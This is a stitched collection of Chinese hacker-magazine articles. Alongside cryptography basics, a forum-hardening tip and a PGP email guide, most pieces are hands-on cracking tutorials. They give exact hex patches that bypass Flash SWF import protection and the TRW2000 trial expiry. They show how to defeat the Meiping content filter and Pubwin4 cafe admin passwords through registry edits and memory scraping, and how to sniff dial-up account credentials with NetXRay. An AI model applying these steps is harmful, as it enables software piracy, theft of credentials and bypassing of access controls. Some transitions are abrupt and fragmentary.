- **鉴别性（Authenticity）**：确定信息来源的合法性，也即此信息确实是由发送方所传送，而非别人伪造，或利用以前的信息来重叠。
- **完整性（Integrity）**：确定信息没有被有意或无意地更改，及被部分取代、加入或删除等。
- **不可否认性（Nonrepudiation）**：发送方在事后不可否认其传送过的信息（相当于签名）。

然而，破译者以其在密码系统中所获得的信息，依其层次可分为下列 3 种可能的破译方式：

- **唯密文攻击法（Ciphertext-Only Attack）**：破译者只能接收到密文 C，欲由密文直接破解出明文，也就是我们通常所说的“暴力破解法”。
- **已知明文攻击法（Known-Plaintext Attack）**：破译者拥有一些“明文－密文对”{m1, C1}、{m2, C2}、……、{mi, Ci}，欲由这些“明文－密文对”求出解密密钥“K2”，或求出下一个密文“Ci+1”。
- **选择文攻击（Chosen-Text Attack）**：在选择文攻击时，假设破译者对明文（或密文）可以有选择或控制的能力，因此他可以选择一些他认为最容易破解的“明文－密文对”而对密码系统加以攻击。此攻击方式又分为：
  1. 选择明文攻击（Chosen-Plaintext Attack）：破译者可以选择明文 m1、m2、…、mi，由密码系统将其加密为 C1、C2、…、Ci，并送回给破译者，破译者据此进行攻击。
  2. 选择密文攻击（Chosen-Ciphertext Attack）：破译者选择一些密文，而密码系统将其解密为明文（可能并无任何意义），并送回给破译者，破译者据此进行攻击。


> 起初解密学是具有序列特性，我通常把密钥和算法同密码学定义为一体。在很多情况下，加密学是等价于密码学，因此秘密密钥密码学又称为对称密码学系统（Symmetric Key Cryptosystem），或单钥密码学系统（One-Key Cryptosystem）。由于传统的密码系统均使用秘密密钥密码学系统，所以该系统又称为传统密码系统（Conventional Cryptosystem）。

> 针对秘密密钥密码系统的缺点，1976 年 Diffie 和 Hellman 提出公开密钥密码系统的概念。

一个安全的秘密密钥密码系统可达到下列功能：

- 保护信息机密：明文经加密后，除非拥有解密密钥（或加密密钥），外人无从了解其内容。
- 认证发送方的身份。
- 确保信息完整性。

但是此系统也有以下缺点：

- 收发双方如何获得其加密密钥和解密密钥？这个问题成为密钥分配问题。若收发双方互不认识时，此问题尤其严重。
- 密钥数目太大：若网络中有 n 人，则每个人必须拥有 n-1 把密钥。网络中共需有 n(n-1)/2 把不同的密钥。如何管理这么多的密钥，也是一个大问题。
- 无法达到不可否认服务：由于发送双方都知道对方的密钥，因此发送方可在事后否认他先前发送过的任何信息。

安全的公开密钥密码系统，可以达到以下功能：

- 保护信息机密：任何人均可将明文加密成密文，此后只有拥有解密密钥的人，才能解密。
- 简化密钥分配及管理问题：网络上的每个人只需要一把加密（公开）密钥及一把解密（私有秘密）密钥，这些密钥只要由接受方自己产生即可。除拥有更高的安全性外，更大大简化密钥的分配及管理问题。
- 可达到不可否认功能：由于接受方自己才拥有解密密钥，若他先用解密密钥将明文加密（签名）成密文（签名字），则任何人均能用公开密钥将密文解密（验证）成明文，并与原来的明文对照。由于只有接受方才能将明文签名，任何人均能验证而无法伪造。

> 一个密码系统是否安全，决定于那个网络是否安全。计算机密码学是一门很复杂的学问，我们将会在以后深入介绍。


天浪

你要问了，不登录怎么管理啊？你可以用权限低的用户登录论坛，然后在管理员入口时，填上权限高的总版主的用户和密码，这样就可以管理论坛了。不过为了更好地掩饰权限最高的那个 ID，我们还要做些工作，就是修改 toplist.asp 文件。我们把文件中：

```asp
case=8
orders=8
ordername="管理团队"
```

这段删掉，然后再往下找：

```asp
case 8:
sql="select username,useremail,userclass,oicq,homepage,article,addDate,userwealth as wealth from [user] where userclass>=19 order by userclass desc,article desc"
```

这段也删掉，这样别人就查看不到“管理团队”哪些人具有的权限高了。我们还可以把管理页面，也就是 admin_login.asp 改一下，让别人登录假的页面，让他怎么也进不去，只有你知道真正页面的位置。此方法很简单，也就不多说了。至于 Cookies，我测试了几个，还可以，问题不大！

为什么突然间想说动网呢？主要是前一阵联盟使用的是动网论坛，感觉不错，哪知道被人给黑了……惨啊！

动网现在的安全隐患主要在“取回密码”那里，因为大多数用户忽略了“取回密码”，把问题和答案写得非常简单，所以只要有人用心琢磨，就可以修改他的密码，从而取得该用户的权限，我就是因为设得太简单，所以人家把论坛给黑了……5555！

> 有些数据库的名字一旦被人猜到，就可以利用系统本身的漏洞轻松搞下来，在 CONN.ASP 里……

我们首先先修改或删除 lostpass.asp 文件，把它改成“如要修改请发 E-MAIL 或短信给 **** 站长”的名字，这样不管你的密码有多简单，别人都无法修改你的密码了。OK，进入下一个步骤，就是保护总版主。首先注册两个用户，一个是总版主，另一个也设成总版主。把你在论坛常用的 ID，也就是其中一个常用的总版主的 ID 权限设成最低，另一个不常用的设成最高，这样你在论坛常用的总版主的 ID 就是别人攻击的目标，即使别人得到你常用的 ID 也没有什么用，因为权限不够啊！

> 这里提醒你一下，另一个权限高的用户，你千万不要用它发帖、登录等活动，这样才不会被人发现。

# 钟馗抗密码系统的理论安全和实际安全

银蛟场

密码学所讨论的系统，其安全性是最高的评价准则。再好的密码系统，若其安全性不足（即可被破解）则一文不值。不幸的是，一个密码系统的安全性很难用理论证明（事实上证明其为安全很难，但指出系统不安全，则证明其为不安全很容易）。因此，一个密码系统被提出公认之后，总会有很多人怀疑其安全性，而想要提出破解方式。通常许多系统，在提出后不久就会被“证明”为不安全。而密码系统设计者就会对破解方式进行围堵与改良，而破译者就会提出新的破解法。密码学领域就成长在如此反复挑战与改进中。Shannon 在 1949 年首先讨论了密码系统的安全性。他考虑了下列两个问题：

> 1. 当破译者有无限的时间与计算能力（Computational Power）对密文加以分析时，一个密码系统最多能有多少安全性呢？
>
> 2. 当破译者在有限的时间及计算能力对密文分析下，一个密码系统是否足够安全呢？

Shannon 接着定义了理论安全（Theoretical Security）及实际安全（Practical Security）两个名词。所谓理论安全，是指不管多少破译者截获多少密文 C，并对之加以分析，其结果是与直接猜明文 m 时一样的。考虑以下例子，如图1所示：


此秘密管道系统的加密函数为简单的异或门（Exclusive OR），密文 C = m(+)K。若明文 m 与加密密钥 K 均为 n 位且互相独立。当我们收到密文 C（例如 C：1011）并加以分析时，发现所有 16 种可能的明文均可能经由加密密钥 k 加密成此密文。因此破译者截获 C，对其用无限制的时间与计算能力加以分析时，对明文的了解与直接猜是一样的。一个密码系统能达此安全性，即称为理论安全，或完全安全（Perfect Security）。

Shannon 用理论证明一个密码系统欲达到理论安全，必须加密密钥的长度大于或等于明文的长度。亦即密钥只用一次，用完即丢。此种系统称为一次一密密码本（One-Time Pad）系统。此乃沿用二次大战期间谍报员派给的一本“活页纸”，上面记载着加解密密钥，且被告知为用完一次加密后即丢弃的简称。理论安全的密码系统如图1所示，虽可达到最高安全性，但因明文长度通常很长，如何获得比明文长度相等或更长的密钥是一大难题，因此此系统一般认为不适于实际应用。

再考虑以下问题，如图2所示。若密钥 K 长度为 n 位，我们可以利用伪随机数产生器（Pseudo Random Number Generator）产生长度为 2^n 位的伪随机序列，此伪随机序列可将明文（长度最长为 2^n 位）加密成密文。此系统无法达到理论安全，因为猜对明文 m 的概率为 2^-2^n，而破译者猜中密钥 K 的概率为 2^-n，当 K 被找到后，经随机数产生器即可将被破获的密文还原成明文。虽然此例的密码系统无法达到理论安全，但若适当设计随机数产生器，使其满足一些特性，则此系统仍可达到一定的安全性。此类系统称为序列密码系统（Stream Cryptosystem）。


密码系统并非一定满足理论安全才是安全的系统。Shannon 假设每一密码系统在给定 n 位密文时，均有一破解此系统的最少工作次数，称为此系统的工作特性 W(n)（Work Characteristic）。Shannon 原意是指唯密文攻击法，但此工作特性 W(n) 可推广至任何的攻击方式。更确切地说，W(n) 可定义为：所有破解此密码系统方法中最佳方法所需的最少次数。已知 n 位密文时，n 为无穷大时其工作特性表示为 W(∞)。若一系统的 W(n) 大到使得具有有限计算能力及内存的破译者无法在合理的时间内破解此系统，则此系统即可称为实际安全（Practical Security）或计算上安全（Computational Security）。

## 浅视反毒素途径欺骗

前段时间朋友告诉我，她在网吧上网时因为机器被安装了美萍反黄软件，所以想看一点情色的东西，这些网站却被美萍给屏蔽了。我的灵感就是从那天开始的，所以不管三七二十一，下载一个 4.1 最新版的，花了 2 个小时研究完成，也希望美萍反黄能够更安全！

## 一、欺骗反黄原理

我们在 IE 中输入的文字，先经过美萍反黄的验证。如果文字中包含美萍黑名单中的单词或网址，就会转向 C 盘的 pornview.htm 文件，所以网站开启失败。如果我们打开第三方浏览器来浏览，是不会被美萍所限制的，但美萍反黄在默认情况下是不允许第三方浏览器运行的，所以我研究了修改美萍反黄在注册表中的方法，如图1所示：


## 二、破解密码方式

1、可以通过修改注册表键值 softabout 为空。这需要利用第三方软件终止美萍反黄进程，如图2所示。终止后加载美萍反黄，你会发现已经不需要密码验证啦！因为注册表中的键值被加密，所以要破解算法才能获取密码。你也可以先备份该键值中的内容，恢复时把键值又写入，这样就没人知道啦！


2、利用内存中的明文漏洞获取密码。我设定密码为 20000315，首先点击任务栏中的“美萍反黄”小图标，然后开启 WinHex，选择打开 RAM，打开虚拟内存为 shield，然后点击整个内存，再点“确定”，如图3所示：需要查找“HVZ”的字符，然后你会发现密码在内存中，如图4所示：


注意：如果密码为字母组合式，可能查找“HVZ”时找不到明文密码，因为内存地址不同。读者也可以亲手测试，这样会给你带来无限乐趣。

## 三、禁止美萍反黄运行

1、如果你不愿意解密，也可以通过以下方式来禁止美萍反黄的运行：通过修改注册表键值 DisableKillPorn 为 1，然后把 IE 全部关闭，当你再次访问受限的主页时，你会发现美萍反黄已经不再限制了。

2、先将美萍反黄的进程结束（见图2），然后再修改注册表键值，可以便于修改。这样可使“美萍反黄”失效，修改注册表方法，如图5所示。


## Win98 下另类方法——获取“有声有色 8.1”特效代码

红色自由人

本人一直使用的杀毒软件是 Norton AntiVirus，最近新出了 Norton AntiVirus 2003 Professional Edition，我当然不会错过了，而且我惊喜地发现，它安装在 Win98 系统时，还“赠送”了以前集成在 Norton Utilities 中的 Norton Unerase Wizard（反删除精灵）。Norton Unerase Wizard 相当于 DOS 下的 undelete，是一个功能强大的反删除工具。平时我们删除文件的时候只是删除“显示标记”而已，虽然已被删除了，但只要还未被新文件覆盖，则文件是可以恢复的，这就是反删除工具的原理！当安装了 UnErase Wizard，Norton Protected Bin 会替代 Windows 回收站的程序，如图1所示。恢复文件时便可做到天衣无缝！下面我就用这个东东给大家做一次破解“有声有色 8.1 试用版”其中的一个特效代码的示范，希望大家会举一反三！


首先，右键单击桌面的 Norton Protected Bin，分别选“清空回收站”和“Empty Norton Protected Files”，把它调到“最佳状态”，目的是为了下一会儿筛选文件时的方便，如图2所示。打开“有声有色 8.1 试用版”，如图3。


接着双击桌面的 Norton Protected Bin（回收站），见到了一些已经被我们删除或软件自动创建后删除的文件，这时候我们把它们真正清除，则鼠标会选中动态 delete，如图4所示。完成后关闭回收站，接下来打开我们需要的特效，这里用“立体按钮升级”菜单为例子，打开后，发现右键被禁用。通常我们打开网页会在临时文件夹留下缓存文件，但有声有色的高超之处在于，当我们看每一个特效的时候，它会把该特效的临时文件删除，然后再将特效网页显示给我们看，用 F5 键刷新后特效网页变成空白。

# 神秘园

白页就证明了这点。重新打开回收站，见到什么了？自动被“有声有色”删除的文件。还用说什么，当然把它们恢复，如图5、6所示。


接下来你要做的就是修改还原网页特效的源代码了。这只是一种治标不治本的方法，而且修改还原后的网页代码还需要大家有一点 HTML 语言的基础。不过，像我这种平时只用这款软件的一点点特效的人，用这种方法就最适合不过了。如果大家有 money，当然要支持一下我们的国货优秀软件啦！

## 对付加密 SWF 动画有招

maomao

现在很多人喜欢把自己的 Flash 作品保护起来，但这种保护相当脆弱，因此流行的许多 Flash 破解工具都可轻松地对付这种保护。不过，我总觉得这不是“治本”的办法，而且太麻烦了，万一在紧急的情况下找不到这些小工具，岂不是要让人干着急？

经过一番研究，终于让我找到了对付这种保护的好方法——用 TRW2000 拿 Flash.exe 主文件开刀！把 Flash.exe 文件稍做修改，就可以使它在打开加密码的 SWF 文件时，不要密码就能将其成功导入。以下是具体的操作步骤：

分别运行 TRW2000 和 Flash5，按 CTRL+N 激活 TRW2000，输入 bpx messageboxa，F5 返回 Flash，在 Flash 菜单中选择“File → Import...”引入 SWF 动画，立即被 TRW2000 拦截住；输入 bd * 暂停所有断点，然后输入 pmodule 这个 TRW2000 特有的命令，此时 Flash 会弹出一说明框，告诉你无法引入此动画，不要理它，按“OK”后又被 TRW2000 拦截，这时已经到了 Flash 领空：

```asm
0177:008E9564 FF15580DA300    CALL    'USER32!MessageBoxA'
0177:008E956A 8BF8            MOV     EDI,EAX
<=== 光标停在这一行
0177:008E956C 892B            MOV     [EBX],EBP
```

一直按住 F10 键，大约经过 3 个 RET，会来到这里：

```asm
0177:0064E510 PUSH    EAX
0177:0064E511 CALL    004126D9
0177:0064E516 CMP     [EBP+FFFFFFB0],EBX
0177:0064E51C JG      0064E4E9
0177:0064E51E CMP     DWORD [EBP+FFFFFBC8],BYTE +00
0177:0064E525 JZ      NEAR 0064E600
0177:0064E52B CMP     DWORD [EBP+FFFFFBCC],BYTE +00
0177:0064E532 JNZ     0064E573
0177:0064E534 CMP     DWORD [009E4A78],BYTE +00
0177:0064E53B JNZ     0064E54B
0177:0064E53D PUSH    BYTE -01
0177:0064E53F PUSH    BYTE +10
0177:0064E541 PUSH    DWORD 025A
0177:0064E546 CALL    007723CC    <=== 这就是那个出错的 Call
0177:0064E54B MOV     BYTE [EBP-04],02  <=== 光标停在这一行
0177:0064E54F CALL    0064E78C
0177:0064E554 MOV     BYTE [EBP-04],00
0177:0064E558 CALL    0064E797
0177:0064E55D MOV     DWORD [EBP-04],FFFFFFFF
<=== 变成 FFFFFFFF 就完成了！
```

再往上看看，看哪里可以绕过出错的 Call，经过比较发现关键在这几个跳转上……


在两个值得怀疑的跳转上都设置断点，先按 F9 在偏移地址 0064E532 处设断点（即汇编代码 JNZ 0064E573 处）；重新导入受保护的 SWF 动画，果然在这一行打住，并且不跳转。输入命令 r fl z 修改 ZF 标志位后，按 F5 运行程序，警告框不见了，但新出来一个密码输入框！好家伙，还有一手，看来不是这里。

现在在第一个可疑点 0064E525 处按 F9 设置断点（即代码 JZ NEAR 0064E600 处），按键盘上的 F5 键，再用 Flash.exe 导入受保护的 SWF 动画，会被中断下来，发现也不跳转。用 r fl z 命令修改 ZF 标志位，再按 F5 运行，哈哈，不要密码就成功导入了那个 SWF。看来只要修改这个判断语句 JZ NEAR 0064E600 就万事大吉了。

原来，[EBP+FFFFFBC8] 中放置的是文件导入保护标志，为 0 则表示没有保护；[EBP+FFFFFBCC] 放置密码保护标志，如果上面的标志为 0，则不比较密码！

```asm
CMP DWORD [EBP+FFFFFBC8],BYTE +00
JZ 0064E600

改为：

CMP DWORD [EBP+FFFFFBC8],BYTE +00
JMP 0064E600
```

现在，用 UltraEdit 等十六进制文件编辑器打开受保护的 Flash 文件，按 ALT+F3，查找如下字符串：

```text
83 BD C8 F8 FF FF 00 0F 84 D5 00 00 00
将其改为：83 BD C8 F8 FF FF 00 E9 D6 00 00 00 90
```

保存即可，至此大功告成，下次再也不用去找什么 Flash 破解工具了！


小榕的流光的确是个好东西，但是它对国内 IP 的限制也是我们菜鸟的心头之痛，万一我们某一天需要扫一下国内的 IP 呢？于是乎有人写了一篇破解流光的文章，但是那是 Fluxay for 2000，而我等用 Fluxay for 98 之辈呢？但是笨人也有笨办法，且听我说来。

我在网吧上网的时候注意到，当选择流光的“目标主机”→“FORM 主机”时，扫描的局域网 IP 范围为 192.168.0.1－192.168.0.255，如图1所示。

- 右击“网上邻居”→“属性”→“TCP/IP 拨号网络适配器”→“属性”，结果出现如图2所示。


然后我们把 IP 设置为要扫描的 IP 段的任意一个 IP，按提示重新启动电脑，再次打开流光，呵呵，有变化了！如图3所示。


后来在学校上网的时候，也安装了流光，结果注意到括号中的内容变成了 192.168.5.1－192.168.5.255。我想了想原因，极有可能是由于两次 IP 地址不同导致的，第一次我的 IP 地址是 192.168.1.xxx，但是在学校是 192.168.5.xxx。这样，问题就产生了，如果我们修改了自己的 IP 地址呢？

假如我们要扫描的是一个 IP 地址为 202.202.202.xxx 的网站，那么我们的目的不就达到了吗？当然，这种方法也有不好的一面，那就是每次使用都必须重新启动电脑，很麻烦。但考虑到什么加密脱壳之类的破解我们菜鸟又不会，就只有这样将就着用吧！

# PGP——把邮件锁住

康旭

大家看过了上期《黑客X档案》的“一嗅天下”是不是感觉不错？但是想过没有，如果你被别人“嗅”了呢？是不是非常不爽？下面，我来介绍一种数字签名/加密技术，配合 Microsoft 的 Outlook 来加密网络中传输的电子邮件。首先要明确两个概念：对称加密和非对称加密。

对称加密：对称加密也是我们经常使用的加密方法，使用一个字符串（也就是密码）去加密数据，然后用相同的字符串解密。WinZip 就是利用对称加密保护数据安全的。

非对称加密：使用一对密钥来加密和解密数据，这对密钥分为公有密钥和私有密钥。看它的名字就知道如何用了吧！公有密钥可以发布在网上，而私有密钥你一定要自己收好。公有密钥是用来加密的，而私有密钥是用来解密的。

> 例如：如果 A 要给 B 发电子邮件，A 要用 B 的公钥加密信件，而 B 收到邮件后要用自己的私钥解密。B 要给 A 发信要用 A 的公钥加密信件，A 也要用自己的私钥解密，就是这么一个简单的过程……

现在我们就来利用一个 PGP 软件来达到这个目的。PGP（Pretty Good Privacy）是一个基于 RSA 公钥加密体系的加密软件，可以在 www.pgpi.org 下载到免费的版本。首先我们安装好这个软件；然后在开始程序中找到 PGP，再点击运行 PGPkeys，如图1所示。


按图1中所示，单击箭头所指的地方，调出向导，填写你的名字和 E-mail 地址，然后点击下一步，在对话框中输入一个密码（建议输入一个比较强的密码）。

在下一窗口中单击“完成”，PGP 会把你新生成的密钥添加到 PGPkeys（密钥管理窗口）中，同时把密钥中的私钥（secring.skr）保存在约定目录（PGP\PGP Keyrings\secring.skr）下。这样我们就创建了一对密钥，下面我们要做的是把自己的公钥导出，如图2所示。


把公钥导出到一个路径，然后把它发给需要给你发电子邮件的朋友们，贴到 BBS 或你的主页上面。你的朋友得到你的公钥以后，还要把它导入到他们自己的 PGP 中。

具体做法是选择 Key → Import，选择你的公钥，这样下次他们给你发加密信件的时候，就可以在他们的公钥列表里看到你的公钥了。

一切准备工作都做好了，现在我们作一个测试，看看是不是能够加密电子邮件。

现在我以我朋友的身份给我自己写一封电子邮件，明文为“This is a test”，收件人是 kxkx@vip.sina.com（也就是我），然后在 Outlook 的工具栏上选择“PGP”→“Encrypt Now”，然后选择我的公钥。这样电子邮件就会被加密成晦涩难懂的密文了，如图3所示。


把邮件发送到我的另一个邮箱，然后我用自己的私钥解密邮件。打开邮件，在工具栏上面选择“PGP”→“Decrypt/Verify”，这样我就把这封电子邮件的明文呈现在眼前了，如图4所示。


这样是不是很清楚了？但还有一个问题，你的公钥已经遍及全球了，每个人都有你的公钥，都可以给你发 E-mail，邮件的安全性可以保证了，可是真实性有没有保证呢？

Sign，把私钥签名加入到 Outlook 里面，成功设置签名后就可以在发邮件的时候选择数字签名了，如图5所示。

当我们发送电子邮件的时候，选择“PGP”→“Sign Now”，然后输入你刚才创建密钥时的密码，这样就可以标识我们的身份，如图6所示。


现在发一封签名邮件是那么容易，但如何确定收到信件的来源是否可靠呢？这时我们就可以利用 PGP 提供的数字签名来确定信件的可靠来源了。方法是利用你的私钥来作签名，然后用公钥来确定签名的正确性。

PGP 是个很不错的软件，还带文件加密和 VPN 加密功能，在这里我就不多说了，希望大家自己去研究，这些东西都是一理通百理通。

具体方法：在 PGP 工具栏上面右键单击你的公钥，然后选择……

## 妙用 NetXRay 偷窥拨号上网帐号

买了联想电脑的用户有福了——可以免费上网！虽然只是免上网费，但这也不错了，毕竟现在上网费贵，上网电话费便宜——拨号上网每分钟才 0.02 元（如果你用宽带是另外一回事）！


但用久了联想的拨号软件，又产生一个问题：每次都用联想的拨号软件上网太麻烦了（连这你都嫌麻烦，你也太……）。因为联想免费帐号是加了密的，直接在其它拨号软件中使用联想给的帐号密码是没有用的，必须用联想拨号软件解密才行，因此不用联想的拨号软件又不行。那么有没有既可以免费上网，又不用联想拨号软件的办法呢？如果你手头上有 NetXRay 就好办了。

> 注意：NetXRay 是由 Cisco Networks 公司开发的一种网络分析器，它不仅仅是一个商用网络管理工具，更重要的是它还是一个非常不错的密码截获器，可以用图形方式显示网络中哪里出现了故障，哪里有异常的动作，同时还可以看到网络的各种状态，维持网络的正常运行。

使用 NetXRay 来捕获数据包实在是太容易了，用它来得到联想上网帐号更是简单。下面是具体的方法和步骤：

- 首先运行 NetXRay，然后选取“Tools”→“Capture”，会弹出“Capture”窗口，如图所示，点击其中的“Start”按钮，这一步的目的是做好截获密码的准备工作；
- 现在，用联想拨号软件拨号上网（1.1 或 1.2 版都可以），连接成功 1 分钟后断线；
- 回到 NetXRay 中，点击“Capture”窗口中的“End and View”按钮；
- 查看右边从上往下数第三个表格，从上往下数 8 行左右，看到 `*****@legend.ct` 了吗？对！就是它！
- `*****@legend.ct` 为用户名，后面为密码。该密码有大小写之分，请大家一定要注意。

使用 NetXRay 能看到你的电脑和哪台机器建立了连接，交换了什么数据，你和对方的 IP 地址和端口等所有细节。要说明的是，如果你是拨号上网，使用 NetXRay 只能捕获你和对方机器所交换的数据包。如果是局域网方式并且使用交换机的话，也只能看到和你建立连接的机器交换的数据和一些广播数据，除非你把它安装在连接到 Internet 上的服务器上。如果用局域网方式并使用 HUB 的话，NetXRay 能捕获网中的任何数据，这是由 HUB 这类硬件的广播性质所决定的，任何人都改变不了。

好了，现在就可以用 Windows 自带拨号软件上网了！使用本方法，还有一个好处，可以将已经用上宽带的朋友不用的且尚未过期的联想帐号拿来使用，即便你的电脑不是联想的也可以，是不是很过瘾？不过，千万不要用本方法来干不合法的事哦，比如说盗用别人的帐号！

```text
NetXRay 下载地址：http://www.chinahome.net/f/jwjt/patch0/pnetxray301.exe
```

## 关于 TRW2000 不得不说的几个问题

TRW2000 是中国人自己编写的逆向工程软件，完全兼容 Soft-ICE 各条指令。由于现在许多软件能检测到 Soft-ICE 的存在，而对 TRW2000 的检测相对就差了许多，因此目前它成了很多高手们的最爱。TRW2000 的运行针对软件破解进行了优化，在 Windows 下跟踪调试程序，比跟踪功能更强。它不仅可以设置各种断点，而且断点种类更多，同时它还可以像一些脱壳工具一样完成对加密外壳的去除，自动生成 EXE 文件，因此它的破解能力更强，更受到许多朋友的推崇。短小精悍的 TRW2000 功能虽然很强大，但不等于它就没有问题了。对于 TRW2000 来说，以下问题如果能解决好，将会更加令人满意。反过来说，也正是以下问题的存在限制了部分用户对它的使用。

## 一、兼容性问题

TRW2000 的兼容性不如 SoftICE 好，1.22 和 1.23 版在我的电脑上总是出现各种兼容性问题。按 CTRL+N 以后，硬盘狂闪，好一阵子才能出现调试界面，有时还死机，但 CTRL+M 没这样的情况。1.03、1.05、1.13、1.15 版的 TRW2000 就没有上述问题！我的配置如下：

- CPU：赛扬Ⅱ 667
- 主板：EP-3VCA2+
- 内存：HY 128M PC133
- 显卡：RIYA128/ZX
- 硬盘：迈拓 40G
- 操作系统：Windows 98

把内存换为 PC100 的条子问题依旧，看起来不是内存引起的问题。估计是显卡的问题，因为我看过有人使用创新 Graphics Blaster Extreme 4MB（Permedia 2V 显示芯片）也会出现问题，症状是：运行 TRW2000 1.23 后，无论怎样按热键或移动鼠标都没有反应，如同死机一样。按 Ctrl+Alt+Del 无法重新启动计算机，必须按机箱上的 RESET 键才可以重新启动计算机。

上面所说的兼容性问题，有许多朋友碰到过。既然大家使用的硬件不尽相同，那只能说明 TRW2000 的兼容性有问题了。这里为大家介绍一个折衷的解决办法，可以解决这类问题：先运行没有问题的低版本 TRW2000，如 1.03 版，然后按 CTRL+N，之后退出。紧接着运行 TRW2000 1.22 版，再按 CTRL+N 则无上述现象发生。

一句话，还是老版本的 TRW2000 更稳定，兼容性更好！

## 二、过期问题

使用未注册版的 TRW2000 到时会有过期提示，真是令人着急。TRW2000 判断软件是否过期是通过其安装目录下的 trw2000.sys 文件来判断的，用静态反汇编工具 W32Dasm 反汇编，会看到其判断过程。以 TRW2000 1.23 版为例，如果你手头上正好使用的是 1.23 版，可以用以下办法解决（改一个字节即可）：

```asm
0003725A: 6A06        push 00000006
0003725C: 33D2        xor edx, edx
0003725E: 59          pop ecx
0003725F: F7F1        div ecx
00037261: 85D2        test edx, edx
00037263: 0F8516010000 jne 0003737F // 这是关键，将其改为 je 0003737F 则不会过期。
```

看明白了吗？把 0F8516010000 中的“85”改为“84”即可。

### 三、软件 BUG 问题

当 TRW2000 所在的目录字符大于 8 个时，如：c:\trw2000123，按热键时存在 plug-ins 装载失败的现象。而如果你使用的是 1.23 版 TRW2000，当你按热键 CTRL+N（M）后会出现调试界面，但当你再按热键却不能回到调试程序中，只能按 F5 键返回。

## 四、细微之处设计不合理问题

在 TRW2000 1.23 中设断点如 BPX HMEMCPY 后，用 BL 命令查看，该断点显示为 BPX #0147:00009E62，如果设置的断点很多，会令人很迷惑。如果能像老版本（1.03）那样仍然显示 BPX HMEMCPY，就很容易分辨究竟是哪个地方被设置了断点。

另外，在 TRW2000 中鼠标功能太少，在其调试界面中遇到跳转处显示 JUMP 时，如果能在旁边加上上下箭头（↑↓）就更好了，这样可以更加清楚地看清被调试程序的运行流程。相比之下，SoftICE 在这方面直观、清晰多了。

尽管 TRW2000 存在上述问题，但不可否认它的确是一款出色的逆向工程软件。我们也期盼软件作者能早日解决这些问题，特别是兼容性问题和软件 BUG。之后 TRW2000 将成为我们所有热爱破解软件的人的最爱！否则我们只能被迫转向 SoftICE，毕竟它的兼容性较 TRW2000 要好了不少！

## 如何避开 ISP 的监视

对于很多用户来说，如何想法避开你的 ISP 知道你的网上活动并不很重要，但对于一个很看重网络安全的使用者，当然不希望自己的网上活动被别人得知，就好像你的隐私不想被人知道一样。大部分的 ISP 都说不会记录使用者的网上活动（特别是在西方的国家，这是涉及隐私的），但至于在实际上 ISP 是否有记录下我们的上网活动，使用者根本无从得知。下面谈谈一个使你的 ISP 不可得知你的网上活动的方法。

最常见的方法是需要一个第三方的代理，这个代理并不是一般我们使用的代理，它必须是不属于你的网络提供商的。因为，如果你是使用同一个网络提供商的服务，而想要避免你的网络供应商记录下你的网络活动是不可能的。原理并不复杂，只是一个加密和解密的过程。

首先，你要在自己的系统上安装一个程序（这个程序负责对请求的加密和对接收到的数据进行解密），当你向网络提供请求时，例如你想访问 www.yahoo.com.cn，浏览器就会处理这个请求，将这个请求进行加密，加密后的数据可能变为“%^&-*(”。这样向第三方代理发送过去时，你的 ISP 记录到的只是一段没有任何意义的加密后的数据（成功避开了 ISP 想得知你的网上活动）。当数据经过你的 ISP 后被第三方代理接收到，第三方代理会将这段加密后的数据解密，然后将请求向目的地址发送过去。当这个请求得到回复后，首先是将数据回送到第三方代理，这时第三方代理将收到的数据进行加密，然后向我们的 IP 地址发送过来。发送中，所有的数据首先要经过我们的 ISP，由于是经过加密的数据，所以 ISP 记录到的只是一段没有意义的数据。当我们收到这些数据时，程序会将数据解密，这样我们就可以看到结果了。

有人会问，ISP 也可以将这些数据解密的啊！理论上是的，但如果使用的是 128 位或更高的加密的话，除非得知密钥，否则在实际上要解密是非常困难的。也有人曾问我关于国产的 sksockserver 代理程序，它的说明中亦曾提及程序是提供数据流加密的。是的，但是问题在于这种加密只是在数据到达安装了 sksockserver 的系统时才被加密，别忘记你要先经过 ISP 才可以到达那个安装了 sksockserver 的系统中，当数据没有在你的系统向外发送时进行加密的话，ISP 就可以得到明文。这里只是谈论了一个原理，至于要想使用这类程序的话，只能说，自己找找吧！

> 并不是所有的国家都允许 128 位更高的加密；很多国家在法律上是不允许有这样高的加密强度，中国亦是其中的一个。

# 神秘园


Pubwin4 是一款不错的网吧管理软件。据说是当今公认最优秀的网吧管理系统，拥有很高的市场占有率，是航母级别的网吧管理软件！——上海锐艺是不是该先付我广告费，然后再扔鸡蛋呢？嘿嘿：）

下面来说说使用 WinHex 破解 Pubwin4 的密码。WinHex 可真是个好东西，介绍使用它来破解的文章不少。本是一个 16 进制文件编辑与磁盘编辑软件，却被用做破解了！

> **注意**
>
> 其使用基本原理就是用 WinHex 打开正在验证软件密码的内存，然后试图寻找其所存的注册码或者密码。

但是要寻找正确密码，发现这种方法恐很容易操作困难，还是找到了！发现该网吧的名字（因为在设置 Pubwin 的时候输入了网吧名字——在登录界面上也可以看见）和网吧主机地址……


采用搜寻“网吧名字”或主机地址就可以让菜鸟很快找到密码，搜寻时不要选择“Unicode 字符设置”。当然也可以用 PgUp 或 PgDn 翻到“00430060”这个位置看看。如图 3 所示为搜寻的内容与结果的比较。

好，我们开始吧！先找到 Pubwin4 在系统托盘处的图标，在图标上点击右键，选择“退出系统”。系统将提示输入管理员口令，在密码框中输入“假”密码，如 87654321，点击“确定”，系统会提示“口令错误，请重新输入！”，这时一定不要再点“确定”。如图 1 所示：


接下来启动 WinHex，打开 RAM，在编辑虚拟内存中双击 Pubwin，打开它的主要内存。如图 2 所示：

> **注意**
>
> 在我采用这种方法寻找密码的时候，本以为在文件菜单中打开“寻找文字”，输入“假”密码——87654321，就可以让其顺藤摸瓜找到正确密码。


其实这种方法局限很大，要靠一点儿运气——谁叫俺菜！只能多找找了。有一点，如果你搜寻到一开始输入的“假”密码——87654321，那密码可能就在它的上方，或尽量向上找找有没有跟真密码的东东！你也可以点击“查看”，选择“只显示文本”增大文本区域，这样会比较方便！好了，其实破解很深奥，方法巧妙各有不同。


马明巳

黑客攻击目标时，常常把破译普通用户的密码作为攻击的开始。先用 finger、远端主机名找出主机上的用户帐号，然后采用字典穷举法进行攻击。

# 一、网络密码破解的原理

